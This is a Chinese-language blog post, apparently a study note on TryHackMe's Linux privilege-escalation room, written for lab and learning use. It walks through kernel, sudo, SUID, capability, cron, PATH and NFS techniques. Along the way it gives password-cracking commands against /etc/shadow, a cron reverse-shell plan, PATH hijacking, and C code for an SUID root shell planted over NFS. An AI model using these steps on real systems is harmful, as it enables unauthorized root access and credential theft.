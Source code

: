 ```yaml
---
layout: post
title:  "Linux Privilege Escalation"
date:   26 June 2025
categories: Demo
tags: TryHackMe-Challenge Writeup
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
今天來迅速了解關於Linux提權的常用手法，可能會有些簡陋，主要是提供自己一個思路給真正在提權時根據這個思路來走不會漏掉資訊

介紹的手法出自 [TryHackMe - Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)，有興趣的朋友可以自行查閱，後續若有看到新的手法會再進行補充

### 1. Kernel Exploit
有些Linux版本內核會有漏洞可以利用來提權，這部分可以在最剛開始拿到權限時就進行測試，因為不需要跑什麼腳本，可以通過簡單的查詢來快速排除/利用此項提權手法:

```bash
hostname
uname -a
cat /proc/version
cat /etc/issue
```

查到內核版本後上網查這個版本是否有CVE漏洞可以用來提權，注意這邊版本必需要直接對應，以及使用漏洞前要先徹底了解腳本會帶來的影響，因為這類型的腳本通常有可能造成系統crash

### 2. sudo -l
快速查閱當前用戶有沒有被授予對特定程序的sudo權限，如果有可利用 [GTFOBins](https://gtfobins.github.io/#) 查實際的提權手法

通常來說提權後關注的文件有:
- `/etc/passwd`
- `/etc/shadow`

獲得這兩個文件後可利用 **unshadow + john** 來破解用戶密碼:

```bash
#有兩個文件分別對應/etc/shadow & /etc/passwd
unshadow password.txt shadow.txt > unshadow.txt
john unshadow.txt
```

### 3. SUID
通過 **find** 指令查詢所有設置SUID的程序，進一步利用 [GTFOBins](https://gtfobins.github.io/#) 查實際提權手法

```bash
find / -type f -perm -04000 -ls 2>/dev/null
find / -perm -4000 -user root 2>/dev/null
```

順帶一提，可以利用 **id** 來查自己或別的用戶的權限以及所在群組，非常有用:

```bash
id
id jerry
```

### 4. Capabilities
*Capability 是 Linux 內核從 2.2 起引入的權限模型，可以讓某些程式在不設 SUID 的情況下擁有特權操作*

因此，如果用 `find` 查詢 SUID 的話是查不出 capability 的，因為它們所在的層面不同，雖然同樣屬於access control。要查詢Capability可以用 **getcap** 來查:

```bash
getcap -r / 2>/dev/null
```

若有查到類似 **cap_setuid+ep** 之類的就表示可能可以利用，因為還要在用 `ls` 檢查 owner 是否為 root 才能利用。當然這一步也可以在使用 **linpeas** 的時候就看到結果，只不過要自己去翻就是了 :D

### 5. Cron jobs
Linux的自動排程程序也可以作為提權手段，思路就是如果有排程任務它的擁有者是root，並且我們擁有這個排程任務執行的script的寫的權限，那麼我們就可以做提權

```bash
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```

- 例如像上面這個crontab，我們可以先找一下有沒有antivirus.sh，發現好像沒有這個文件，那麼我們正常來說可以創造一個名為 antivirus.sh 的文件並放在 PATH 下，但是當我們檢查這麼多個PATH之後發現當前用戶都沒有寫入權限，因此pass
- 再來我們去檢查 /home/karen/backup.sh 我們有無寫入權限，也是沒有因此pass
- 最後看到/tmp/test.py，對/tmp目錄我們有寫入權限，因此創建一個bash file名為test.py，內容是一個reverse shell返回到我們攻擊主機
- 注意這個test.py實際上並不是python file而是bash file，因為python file的話需要在裡面進一步設置setuid(0)之類的，而我們自己創造的test.py實際上並沒有權限可以這麼做，因此直接利用bash file執行reverse shell即可

### 6. PATH
利用的就是有些程序調用時使用例如 `os.system("vim")`也就是沒有使用絕對路徑，這樣的話linux會默認到環境變數PATH下依照順序到各個目錄下看有沒有這麼一個程序名為 `vim`。但如果下面條件有任何一項符合的話我們就可以利用環境變數PATH來提權:
- PATH中有哪些folder並且有folder我們有寫入權限
- 當前用戶有無權限修改PATH

**所以我們可以簡化出一個流程用於檢查是否可以利用PATH提權**：
- PATH中有哪些folder
- (二則一)這些folder有沒有w權限
- (二則一)可不可以修改PATH
- 有沒有script/application可以利用的(也就是有使用相對路徑調用的)

**常用指令:**

```bash
# 查看PATH
echo $PATH
# 查哪些folder當前用戶有寫入(w)權限
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
# 修改PATH
export PATH=/tmp:$PATH
```

### 7. NFS
NFS (Network File Sharing)也可以用來提權，思路就是在攻擊主機中mount到受害者主機分享的資料夾，之後用root用戶創建一個executable並且設置SUID，這樣在受害者主機上也會是root權限和SUID:
- 查看NFS 
  
```bash
# victim's perspective
cat /etc/exports
```

- 攻擊者主機:找出NFS並且mount到shared folder 
  
```bash
# attacker's perspective
showmount -e <VICTIM_IP>    #找出shared folders
mkdir /tmp/ttmp
mount -o rw <VICTIM_IP>:<SHARED_FOLDER> /tmp/ttmp   #mount到攻擊者主機文件夾
```
  
- 建一個ELF executable並且權限為owner:root和SUID

```c
#include <unistd.h>
#include <stdlib.h>

int main(){
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

- 編譯為ELF executable

```bash
gcc nfs.c -o nfs -w
chmod +s nfs
```

- 最後在reverse shell上執行

```bash
./nfs
```

### 自我總結
提權手法類別:
- kernel exploit
- sudo -l
- SUID
- capability
- cron jobs
- PATH
- NFS

## 學習資料
1. [TryHackMe - Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)

</div>
</body>
</html>
